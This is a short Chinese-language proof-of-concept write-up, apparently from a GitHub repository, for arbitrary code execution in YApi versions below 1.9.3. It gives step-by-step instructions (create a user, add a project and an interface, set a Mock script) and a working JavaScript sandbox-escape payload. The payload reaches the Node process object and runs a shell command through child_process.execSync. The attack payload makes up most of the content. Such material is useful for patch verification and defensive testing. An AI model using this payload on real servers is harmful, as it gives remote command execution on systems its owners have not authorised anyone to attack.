





# 任意代码执行
## 影响版本
YApi < 1.9.3  
网站底部有显示版本号，如果没有的话，去assets.js里面看
## POC
1. 首页创建用户
2. 添加项目  
  
  
3. 添加接口  
   
  
4. 设置Mock
  
poc:  
```shell
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child\_process").execSync("whoami").toString()
```
5. 访问Mock地址
  
命令执行成功